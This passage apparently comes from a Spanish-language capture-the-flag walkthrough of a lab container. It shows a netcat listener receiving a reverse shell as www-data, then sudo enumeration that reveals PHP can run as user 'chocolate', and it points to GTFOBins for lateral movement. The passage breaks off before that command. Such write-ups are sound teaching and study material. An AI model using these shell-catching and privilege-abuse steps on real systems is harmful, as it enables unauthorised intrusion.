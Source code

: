 ![revshellmyimagedirectory.png](assets/revshellmyimagedirectory.png)

Obtenemos acceso:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 59978
Linux 95e336f4d2b4 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 x86_64 x86_64 GNU/Linux
 09:27:49 up  2:17,  0 users,  load average: 1.73, 1.56, 1.43
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@95e336f4d2b4:/$ 
```

Enumeramos los permisos Sudo:

```bash
www-data@95e336f4d2b4:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on 95e336f4d2b4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 95e336f4d2b4:
    (chocolate) NOPASSWD: /usr/bin/php
www-data@95e336f4d2b4:/$ 
```

Y vemos que podemos hacer un movimiento lateral al usuario chocolate, vamos a [GTFOBINS: Sudo PHP](https://gtfobins.github.io/gtfobins/php/#sudo) y ponemos el comando personalizado a nuestro caso:
